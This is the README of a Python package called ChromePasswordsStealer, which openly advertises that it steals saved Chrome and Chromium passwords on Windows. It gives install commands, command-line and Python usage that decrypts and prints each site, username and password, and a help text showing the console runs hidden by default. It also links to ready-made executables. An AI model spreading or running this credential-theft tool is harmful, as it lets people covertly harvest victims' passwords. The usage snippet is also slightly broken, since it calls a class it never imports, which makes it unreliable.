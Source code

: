 ![ChromePasswordsStealer logo](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer_small.png "ChromePasswordsStealer logo")

# ChromePasswordsStealer

## Description

This module steals chrome and chromium passwords on Windows.

## Requirements

This package require:
 - python3
 - python3 Standard Library
 - pywin32
 - PythonToolsKit
 - PyCryptodome

## Installation

```bash
pip install ChromePasswordsStealer
```

## Usages

## Command lines

```bash
# Python executable
python3 ChromePasswordsStealer.pyz -h
# or
chmod u+x ChromePasswordsStealer.pyz
./ChromePasswordsStealer.pyz --help

# Python module
python3 -m ChromePasswordsStealer

# Entry point (console)
ChromeStealer --save-all --window -f passwords
```

### Python script

```python
from ChromePasswordsStealer import ChromePasswordsStealer
stealer = ChromePasswordsStealer()
stealer = ChromiumPasswordsStealer("passwords", True)
stealer.get_database_cursor()
stealer.get_key()
for url, username, password in stealer.get_credentials():
    print(url, username, password)

stealer.save_and_clean()
```

## Help

```text
~# python3 ChromePasswordsStealer.py -h

usage: ChromePasswordsStealer.py [-h] [--filename FILENAME] [--window] [--save-all]

This program steals Chrome passwords on Windows.

optional arguments:
  -h, --help            show this help message and exit
  --filename FILENAME, -f FILENAME
                        The filename to export the credentials.
  --window, -w          Do not hide the console.
  --save-all, -s        Save chrome db, key file and key.
```

## Links

 - [Github Page](https://github.com/mauricelambert/ChromePasswordsStealer/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer.html)
 - [Python Executable](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer.pyz)
 - [Windows Executable - Github](https://github.com/mauricelambert/ChromePasswordsStealer/releases/latest)
 - [Windows Executable - SourceForge](https://sourceforge.net/projects/chromepasswordsstealer/files/latest/download)
 - [Pypi package](https://pypi.org/project/ChromePasswordsStealer/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
